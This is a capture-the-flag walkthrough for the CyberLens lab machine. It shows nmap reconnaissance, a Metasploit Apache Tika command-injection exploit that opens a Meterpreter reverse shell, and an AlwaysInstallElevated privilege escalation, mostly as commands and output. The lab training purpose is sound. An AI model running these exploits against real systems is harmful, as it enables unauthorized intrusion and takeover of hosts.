

# CyberLens

Can you exploit the CyberLens web server and discover the hidden flags?

## Description

Challenge Description
Welcome to the clandestine world of CyberLens, where shadows dance amidst the digital domain and metadata reveals the secrets that lie concealed within every image. As you embark on this thrilling journey, prepare to unveil the hidden matrix of information that lurks beneath the surface, for here at CyberLens, we make metadata our playground.

In this labyrinthine realm of cyber security, we have mastered the arcane arts of digital forensics and image analysis. Armed with advanced techniques and cutting-edge tools, we delve into the very fabric of digital images, peeling back layers of information to expose the unseen stories they yearn to tell.

Picture yourself as a modern-day investigator, equipped not only with technical prowess but also with a keen eye for detail. Our team of elite experts will guide you through the intricate paths of image analysis, where file structures and data patterns provide valuable insights into the origins and nature of digital artifacts.

At CyberLens, we believe that every pixel holds a story, and it is our mission to decipher those stories and extract the truth. Join us on this exciting adventure as we navigate the digital landscape and uncover the hidden narratives that await us at every turn.

Can you exploit the CyberLens web server and discover the hidden flags? 

Things to Note
1. Be sure to add the IP to your /etc/hosts file: sudo echo '10.10.182.102 cyberlens.thm' >> /etc/hosts
2. Make sure you wait 5 minutes before starting so the VM fully starts each service

## Challenges

1. What is the user flag? 

`nmap -sV -sC -T4 cyberlens.thm -p-`

```
Starting Nmap 7.60 ( https://nmap.org ) at 2024-05-29 05:17 BST
Nmap scan report for cyberlens.thm (10.10.182.102)
Host is up (0.00042s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.57 ((Win64))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.57 (Win64)
|_http-title: CyberLens: Unveiling the Hidden Matrix
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=CyberLens
| Not valid before: 2024-05-28T03:35:41
|_Not valid after:  2024-11-27T03:35:41
|_ssl-date: 2024-05-29T04:46:05+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
61777/tcp open  http          Jetty 8.y.z-SNAPSHOT
|_http-cors: HEAD GET
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: Jetty(8.y.z-SNAPSHOT)
|_http-title: Welcome to the Apache Tika 1.17 Server
MAC Address: 02:FC:30:0D:32:4B (Unknown)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: CYBERLENS, NetBIOS user: <unknown>, NetBIOS MAC: 02:fc:30:0d:32:4b (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-29 05:46:05
|_  start_date: 1600-12-31 23:58:45

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1702.21 seconds
```

Check Web - `view-source:http://cyberlens.thm/about.html`



`nmap -A cyberlens.thm -p 61777`

```
Starting Nmap 7.60 ( https://nmap.org ) at 2024-05-29 05:22 BST
Nmap scan report for cyberlens.thm (10.10.182.102)
Host is up (0.00013s latency).

PORT      STATE SERVICE VERSION
61777/tcp open  http    Jetty 8.y.z-SNAPSHOT
|_http-cors: HEAD GET
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: Jetty(8.y.z-SNAPSHOT)
|_http-title: Welcome to the Apache Tika 1.17 Server
MAC Address: 02:FC:30:0D:32:4B (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (93%), Microsoft Windows Vista SP1 (92%), Microsoft Windows Longhorn (92%), Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 R2 Update 1 (90%), Microsoft Windows Server 2016 build 10586 (90%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (90%), Microsoft Windows 10 build 10586 (90%), Microsoft Windows Server 2008 SP2 (90%), Microsoft Windows 7 SP1 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.13 ms cyberlens.thm (10.10.182.102)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.51 seconds
```

Check `searchsploit Apache Tika`

Metasploit

`msfconsole`

```
msf6 > search apache tika
Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/windows/http/apache_tika_jp2_jscript  2018-04-25       excellent  Yes    Apache Tika Header Command Injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/apache_tika_jp2_jscript

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/apache_tika_jp2_jscript) > show options

Module options (exploit/windows/http/apache_tika_jp2_jscript):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:por
                                         t[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.
                                         metasploit.com/docs/using-metasploit/
                                         basics/using-metasploit.html
   RPORT      9998             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connec
                                         tions
   SSLCert                     no        Path to a custom SSL certificate (def
                                         ault is randomly generated)
   TARGETURI  /                yes       The base path to the web application
   URIPATH                     no        The URI to use for this exploit (defa
                                         ult is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to
                                       listen on. This must be an address on t
                                       he local machine or 0.0.0.0 to listen o
                                       n all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thr
                                        ead, process, none)
   LHOST     10.10.3.54       yes       The listen address (an interface may b
                                        e specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows

msf6 exploit(windows/http/apache_tika_jp2_jscript) > set RHOSTS 10.10.182.102
RHOSTS => 10.10.182.102
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set RPORT 61777
RPORT => 61777
msf6 exploit(windows/http/apache_tika_jp2_jscript) > exploit

[*] Started reverse TCP handler on 10.10.3.54:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -   8.10% done (7999/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  16.19% done (15998/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  24.29% done (23997/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  32.39% done (31996/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  40.48% done (39995/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  48.58% done (47994/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  56.67% done (55993/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  64.77% done (63992/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  72.87% done (71991/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  80.96% done (79990/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  89.06% done (87989/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  97.16% done (95988/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Sending stage (175686 bytes) to 10.10.182.102
[*] Command Stager progress - 100.00% done (98798/98798 bytes)
[*] Meterpreter session 1 opened (10.10.3.54:4444 -> 10.10.182.102:49853) at 2024-05-29 06:05:17 +0100

meterpreter > pwd
C:\Windows\system32
meterpreter > cd ../../Users
meterpreter > ls
Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  8192  dir   2024-05-29 04:46:04 +0100  Administrator
040777/rwxrwxrwx  0     dir   2018-09-15 08:28:48 +0100  All Users
040777/rwxrwxrwx  8192  dir   2023-11-25 07:31:22 +0000  CyberLens
040555/r-xr-xr-x  8192  dir   2021-03-17 14:58:07 +0000  Default
040777/rwxrwxrwx  0     dir   2018-09-15 08:28:48 +0100  Default User
040555/r-xr-xr-x  4096  dir   2018-12-12 07:45:15 +0000  Public
100666/rw-rw-rw-  174   fil   2018-09-15 08:16:48 +0100  desktop.ini

meterpreter > cd CyberLens\\
meterpreter > cd Desktop\\
meterpreter > cat user.txt
```

2. What is the admin flag? 

```
msf6 exploit(windows/http/apache_tika_jp2_jscript) > sessions
msf6 exploit(windows/local/always_install_elevated) > use multi/recon/local_exploit_suggester
msf6 exploit(windows/http/apache_tika_jp2_jscript) > use exploit/windows/local/always_install_elevated
msf6 exploit(windows/local/always_install_elevated) > set SESSION 1
msf6 exploit(windows/local/always_install_elevated) > exploit
...
meterpreter > pwd
C:\Windows\system32
meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd Users\\
meterpreter > cd Administrator\\
meterpreter > \cd Desktop\\
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode            Size  Type  Last modified             Name
----            ----  ----  -------------             ----
100666/rw-rw-r  527   fil   2016-06-21 16:36:17 +010  EC2 Feedback.website
w-                          0
100666/rw-rw-r  554   fil   2016-06-21 16:36:23 +010  EC2 Microsoft Windows Gu
w-                          0                         ide.website
100666/rw-rw-r  24    fil   2023-11-27 19:50:45 +000  admin.txt
w-                          0
100666/rw-rw-r  282   fil   2021-03-17 15:13:27 +000  desktop.ini
w-                          0

meterpreter > cat admin.txt
```


